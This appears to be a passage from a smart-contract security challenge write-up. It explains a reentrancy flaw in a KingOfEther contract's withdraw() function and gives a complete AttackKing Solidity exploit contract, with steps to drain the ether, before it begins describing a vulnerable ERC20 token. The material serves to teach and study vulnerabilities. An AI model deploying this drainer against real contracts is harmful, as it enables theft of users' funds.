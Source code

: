             (bool success, ) = msg.sender.call{value: stakes[msg.sender]}("");
            require(success, "Withdraw Failed");
            stakes[msg.sender] = 0;
        }

    }
    ```

- The `withdraw()` function is vulnerable to Reentrancy as it makes external call before updating the stake value.
- The `AttackKing` contract will exploit the KingOfEther and drains all the ether.

    ```
    contract AttackKing{
        KingOfEther public kingContract;
        constructor(address _kingContract) {
            kingContract = KingOfEther(_kingContract);
        }
        function deposit() public payable  {
            kingContract.depositStake{value: 1 ether}();
        }
        function exploit() public {
            require(block.timestamp > kingContract.startingTime()+30, "Wait to exploit");
            if(!kingContract.isGameOver()){
                kingContract.endGame();
            }
            kingContract.withdraw();
        }

        receive() external payable {  
            if(address(kingContract).balance >= 1 ether){
                kingContract.withdraw();
            }
        }
    }
    ```
- Call `deposit()` first then call `exploit()` to attack the `KingOfEther`.


# Vulnerable ERC20

## Description

ERC20 is a fungible token standard came from EIP20. ERC20 Tokens are widely used fungible tokens in ethereum. The ERC20 token must implement the necessary functions mentioned in the EIP20 proposal. 

## Observations

- The ERC20.sol file consists of a `SafeMath` library and a `ERC20` contract. 
- `ERC20` contract uses SafeMath library on the uint256 instances. 
- It has basic state variables name, total_supply, symbol, decimals which are required for a ERC20 token.
- It uses two mappings `_balances` and `allowances` to keep track balances of user and allowances of a user.
- `balanceOf()` function returns the token balance of an address and `allowance()` returns approval amount of tokens by the owner to the spender.
- `transfer()` function transfers the tokens between addresses. And emits `Transfer` event on transfer.
- `approve()` function approves a spender to spend owner tokens. Emits `Approve` event on approval.
- `transferFrom()` used to transfer the tokens on behalf of the token owner by the spender.
